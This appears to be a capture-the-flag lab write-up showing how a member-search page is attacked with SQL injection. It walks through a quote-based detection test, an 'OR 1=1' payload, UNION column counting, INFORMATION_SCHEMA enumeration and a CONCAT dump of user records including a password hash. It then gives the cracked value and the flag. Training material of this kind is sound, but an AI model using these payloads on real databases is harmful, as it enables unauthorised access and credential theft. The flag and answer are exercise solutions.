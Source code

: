 
# SQL Injection - Member

## Context summary
The section of the site provides us with a member search tool, we can suppose to enter a number or string which serves as a unique identifier.

## Vulnerability
This site is seriously vulnerable to SQL injections.

## Attack Design

### How to detect SQL injection vulnerabilities ?
We can try a very basic test, which is to insert a quote in the input.

`http://[IP_ADDR]/?page=member&id=123&Submit=Submit#`
```sql
SELECT something, random FROM users WHERE id = 123
```

If in this case you replace **123** input with a `'`, it will give you a syntax error because of the impair number of quotes, and in this case you can conclude that you can inject SQL.

`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1`

Meaning that the query become something like that :

```sql
SELECT something, random FROM users WHERE id = '\''
```

###  SQL Injection Based on 1=1 is Always True

```sql
# Always true
OR 1=1;
```
```sql
SELECT something, random FROM users WHERE id = 123 OR 1=1;
```

You will quickly understand, if in the input we now put **`1 OR 1=1;`** , we will return all the selected columns.
We get some data, but not that interesting, so we'll send a query on a much larger scale using **UNION**.

###  SQL Injection Attack Based on UNION

The **`UNION`** operator is used to combine the result-set of two or more **`SELECT`** statements.

- Every **`SELECT`** statement within **`UNION`** must have the same number of columns
- The columns must also have similar data types
- The columns in every **`SELECT`** statement must also be in the same order

To respect the first condition we will do a series of tests manually, we have to determine how many columns are being returned from the original query.
```sql
UNION SELECT NULL--
UNION SELECT NULL, NULL--
UNION SELECT NULL, NULL, NULL--
```
In our case it will be two columns.


To carry out a query on a larger scale I chose the [INFORMATION_SCHEMA.COLUMNS](https://www.mssqltips.com/sqlservertutorial/183/information-schema-columns/)

```sql
SELECT something, random FROM users WHERE id = 123 OR 1=1
UNION
SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
```

Now we can see that in the return of this query, we have at the very end some interesting data which is linked to the user table, in order to read everything at once, we can use a SQL Function **`CONCAT()`**.

```sql
SELECT something, random FROM users WHERE id = 123 OR 1=1
UNION
SELECT user_id, CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
```

Now we still have a certain password to decipher
```
5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
```

`5ff9d0165b4f92b14994e5c685cdce28` : **FortyTwo**. (was MD5).  
**FortyTwo** -> **fortytwo** -> `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

## Remediation
The following security measures are the most effective way to prevent SQL injection attacks: Using prepared statements and parameterized queries.

> Flag : `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`